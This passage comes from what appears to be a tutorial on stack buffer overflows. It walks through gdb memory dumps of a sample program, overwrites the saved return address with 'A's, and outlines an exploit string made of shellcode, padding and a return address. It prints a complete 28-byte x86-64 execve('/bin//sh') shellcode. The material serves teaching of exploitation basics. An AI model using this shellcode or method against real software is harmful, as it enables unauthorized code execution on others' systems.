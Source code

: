 ```
 Locals at 0x7fffffffdcf0, Previous frame's sp is 0x7fffffffdd00
 Saved registers:
  rbp at 0x7fffffffdcf0, rip at 0x7fffffffdcf8
```
and check the content of the address:
```
x/10x 0x7fffffffdcf8
0x7fffffffdcf8:	0x7d	0x51	0x55	0x55	0x55	0x55	0x00	0x00
0x7fffffffdd00:	0x08	0xde
```

Furthermore, we have:
```
print &str
$2 = (char (*)[60]) 0x7fffffffdcb0
```

*Side Note*: The reader might have noticed that the memory location where the return address (as well as the memory address of the character array) have changed. This is due to the changed length of the argument, which is also handed over as part of the stackframe of the process. However, the relative distance between the memory location of the character array and the return address does not change.

Now, let's fire `strcpy` with an input that exceeds the length of the reserved memory location by using the `step command.

If we now again examine the memory location of the stored return address we get the following:
```
(gdb) x/10x 0x7fffffffdcf8
0x7fffffffdcf8:	0x41	0x41	0x41	0x41	0x41	0x41	0x00	0x00
0x7fffffffdd00:	0x00	0xde
```

As our calculation has shown, the memory distance (72 bytes) between `str` and the stored return address as been filled with `A`s and additional 6 `A`s (note that we had input 78 `A`s) have overwritten the stored return address.

If we now `continue` the execution, we end up in a `Segmentation fault`, since the process tries to access memory location `0x0000414141414141`, which it is apparently not allowed to access.

At this point, we have all we need to exploit the vulnerability in our sample executable. Our goal is to use the shellcode we have composed in the first part, put it on the stack and modify the return address such that it points to our shellcode that would then be executed, when the function call returns.

So, in order to put together our exploit, we will compose the input string as follows:
```
<shellcode> + padding + <start-address of shellcode>
```

Recall that the string we input as the argument for our executable is filled into the memory starting at the start-address of our character array `str` filling up memory cells to higher addresses. Furthermore, recall the little-endian byteorder.

So the shellcode we have put together above is the following string:
```
\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\xb0\x3b\x48\x31\xd2\x48\x31\xf6\x48\x89\xe7\x0f\x05
```
it has a length of 28 bytes.

